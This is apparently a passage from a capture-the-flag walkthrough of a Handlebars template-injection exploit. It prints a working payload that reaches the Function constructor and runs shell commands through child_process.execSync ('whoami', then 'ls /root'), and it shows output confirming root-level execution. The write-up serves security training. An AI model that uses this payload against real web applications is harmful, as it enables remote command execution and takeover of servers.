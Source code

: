 ```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


In the response:

    <p class="result">
        We will contact you at:       e
      2
      [object Object]
        function Function() { [native code] }
        2
        [object Object]
            root


    </p>

![[Pasted image 20240914161048.png]]

In the response we see that the output of the `whoami` command is `root`. This means that we have successfully run system commands on the box and also that the web server is running in the context of the root user.

We can now proceed one of two ways:
We can either get a Reverse Shell on the affected system, or, for this exercise, directly grab the flag.

We know that the flag is most probably located in `/root` but we can also verify this. Let's change our command from `whoami` to `ls /root` to list all files and folders in the root directory.

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls /root');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
```